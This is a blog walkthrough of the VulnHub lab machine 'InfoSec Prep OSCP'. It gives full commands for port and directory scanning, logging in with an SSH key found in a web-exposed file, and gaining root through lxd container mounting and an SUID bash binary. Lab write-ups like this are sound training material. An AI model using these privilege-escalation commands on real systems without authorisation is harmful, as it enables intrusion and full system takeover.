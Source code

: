 ```yaml
---
layout: post
title: InfoSec Prep OSCP - Vuln Hub Machine
description: >
    Detailed walkthrough  of the machine Infosec Prep OSCP that was released on VulnHub 11 Jul 2020 by FalconSpy 
sitemap: false
categories: [VulnHub]
permalink: /:categories/InfoSec_Prep_OSCP.html
---
```

* toc
{:toc .large-only}

## Machine Summary
Machine has a web application running, upon enumerating the directories /secret.txt contains a SSH Private key which is encoded in base64. After decryption, we can login as user **oscp** with the SSH Private key. we can esclate the privileges to root in two ways 1. Exploiting the lxd group 2. Exploiting the SUID - Bash

## Nmap Scan
As the golden rule i started with nmap scan
```bash
nmap -sC -sV -p- 192.168.0.101
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/1.png)
It has two ports open 

| Port         | Service           |
|:-------------|:------------------|
| 22           | ssh               |
| 80           | http              |
| 33060        | mysqlx            |

## Enumeration on Port 80

I started to enumerate on the site, it was a wordpress site so i ran a wpscan on it but nothing poped up. I manually enumerated on the site but i ended up with no usefull information for enumeration
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/2.png)

I ran gobuster on the site to enumerate the files and directories
```bash
gobuster dir -u http://192.168.0.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,conf
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/3.png)

secret.txt seems to be interesting, I opened it on the browser

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/5.png)

## Acquiring User Shell
It was encoded on base64 so i decoded it, viewing that it was a SSH private key 
```bash
echo "Base64_Hash" |base64 -d >> id_rsa
```
We need some usernames to login through ssh using the private key so i tried guessing username and username ***oscp*** worked.
We also need to add permissions to the private key
```bash
chmod 600 id_rsa
```
I logged in onto the machine using the private key for the user oscp
```bash
ssh -i id_rsa oscp@192.168.0.101
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/6.png)

## Privilege Escalation

I enumerated the machine with current privilege as oscp, found two things that could grant us root shell

1. User is part of lxd group
2. Suid was configured for /usr/bin/bash

By these two ways, we can proceed to root.

## Privilege Escalation through Exploiting lxd group 

**LXC** —short for “Linux containers”, is a solution for virtualizing software at the operating system level within the Linux kernel.

**LXD** is a management API for dealing with LXC containers on Linux systems. It will perform tasks for any members of the  local lxd group.
ie. a low privilege user can create a bridge between sockets on the host and its containers. when bridging from an existing socket on the host to a new socket in a container, it makes the connection with the credentials of the LXD service. so when user speaks to the container, the messages (command) and it lands on the container with root privileges (commands are executed with the root)

Executing lxc directly didn't work so i tried executing it with the full path of the binary file ie. /snap/bin/lxc
```bash
/snap/bin/lxc
```
First i created a storage pool
```bash
/snap/bin/lxd init
```
I moved on with the default settings, now we need to create a container called test 
```bash
/snap/bin/lxc init ubuntu:18.04 test -c security.privileged=true
```
We configure that container such that all the files and folders of the host is copied or present in /mnt/root directory
```bash
/snap/bin/lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
```
Now we need to start the container called test
```bash
/snap/bin/lxc start test
```
We execute the container
```
/snap/bin/lxc exec test bash
```

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/7.png)

Now we go into the directory **/mnt/root/root** to get the flag.txt

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/8.png)

**This exploit methodolgy will only work when the target machine has access to internet**
{:.note title="Attention"}

## Exploiting the misconfigured SUID - bash

**SUID** - SUID is nothing but a special permission bit available in Linux, that achieves this with a lot of ease. If you are the owner of an executable file, with the help of SUID permission set, other users will be running the executable with your  permission and not theirs. 

We can list the binaries with SUID permissions using the command below
```bash
find / -perm -u=s -type f 2>/dev/null
```
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/9.png)
![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/10.png)

Bash was the juicy binary. we can exploit it to get the root privilege

[**GTFOBins**](https://gtfobins.github.io/#+suid)

```bash
bash -p
``` 
This granted us the shell with root privilege

![](https://r3dw0lfsec.in//assets/img/blog/VulnHub/Infosec_Prep_OSCP/11.png)

Happy Hacking !